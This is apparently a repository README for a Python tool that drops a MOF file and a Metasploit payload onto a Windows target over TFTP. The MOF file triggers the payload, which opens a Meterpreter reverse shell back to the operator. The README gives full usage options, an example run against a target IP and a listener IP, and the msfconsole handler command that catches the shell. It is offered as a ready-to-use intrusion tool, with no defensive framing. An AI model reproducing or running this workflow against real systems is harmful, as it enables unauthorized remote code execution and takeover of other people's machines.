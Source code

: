 # python_tftp_mof_dropper

Transfers a MOF file and a payload via tftp to the target. Uses metasploit to generate the payload and the [tftpy](https://github.com/msoulier/tftpy) tftp library.

Usage:
```
python tftp_mof_dropper.py --help
usage: tftp_mof_dropper.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST
                           [--lport LPORT] [--exe_rfile EXE_RFILE]
                           [--mof_rfile MOF_RFILE] [--msf_payload MSF_PAYLOAD]

optional arguments:
  -h, --help            show this help message and exit
  --rhost RHOST         the remote host (default: None)
  --rport RPORT         the remote tftp port (default: 69)
  --lhost LHOST         the local host (default: None)
  --lport LPORT         the local port to listen on for incoming reverse shell
                        (default: 4444)
  --exe_rfile EXE_RFILE
                        the path on the remote host where the exe file (msf
                        payload) should be uploaded to (default:
                        /Windows/System32/)
  --mof_rfile MOF_RFILE
                        the path on the remote host where the mof file should
                        be uploaded to (default: /Windows/System32/wbem/mof/)
  --msf_payload MSF_PAYLOAD
                        the msf payload to use (default:
                        windows/meterpreter/reverse_tcp)
```

Example:
`python tftp_mof_dropper.py --rhost 1.2.3.4 --lhost 5.6.7.8`

Note: you must run a metasploit handler or netcat listener (depending on the payload you use) which captures the incoming reverse shell before executing the script. Create it with e.g. `msfconsole -x 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 5.6.7.8; run' -q`
